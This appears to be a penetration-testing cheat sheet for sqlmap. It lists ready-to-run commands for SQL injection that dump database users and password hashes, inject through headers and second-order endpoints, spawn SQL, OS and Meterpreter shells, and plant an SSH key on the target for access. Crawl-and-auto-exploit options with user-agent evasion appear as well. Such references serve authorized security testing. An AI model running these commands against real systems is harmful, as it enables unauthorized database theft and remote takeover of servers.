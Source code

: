 
## SQL injection using SQLmap

[sqlmapproject/sqlmap](https://github.com/sqlmapproject/sqlmap) is an open-source penetration testing tool that automates the process of detecting and exploiting SQL injection vulnerabilities and taking over database servers.

### Basic arguments for SQLmap

```powershell
sqlmap --url="<url>" -p username --user-agent=SQLMAP --random-agent --threads=10 --risk=3 --level=5 --eta --dbms=MySQL --os=Linux --banner --is-dba --users --passwords --current-user --dbs
```

### Load a request file and use mobile user-agent

```powershell
sqlmap -r sqli.req --safe-url=http://10.10.10.10/ --mobile --safe-freq=1
```

### Custom injection in UserAgent/Header/Referer/Cookie

```powershell
python sqlmap.py -u "http://example.com" --data "username=admin&password=pass"  --headers="x-forwarded-for:127.0.0.1*"
The injection is located at the '*'
```

### Second order injection

```powershell
python sqlmap.py -r /tmp/r.txt --dbms MySQL --second-order "http://targetapp/wishlist" -v 3
sqlmap -r 1.txt -dbms MySQL -second-order "http://<IP/domain>/joomla/administrator/index.php" -D "joomla" -dbs
```

### Shell

- SQL Shell: `python sqlmap.py -u "http://example.com/?id=1"  -p id --sql-shell`
- OS Shell: `python sqlmap.py -u "http://example.com/?id=1"  -p id --os-shell`
- Meterpreter: `python sqlmap.py -u "http://example.com/?id=1"  -p id --os-pwn`
- SSH Shell: `python sqlmap.py -u "http://example.com/?id=1" -p id --file-write=/root/.ssh/id_rsa.pub --file-destination=/home/user/.ssh/`

### Crawl a website with SQLmap and auto-exploit

```powershell
sqlmap -u "http://example.com/" --crawl=1 --random-agent --batch --forms --threads=5 --level=5 --risk=3

--batch = non interactive mode, usually Sqlmap will ask you questions, this accepts the default answers
--crawl = how deep you want to crawl a site
--forms = Parse and test forms
```
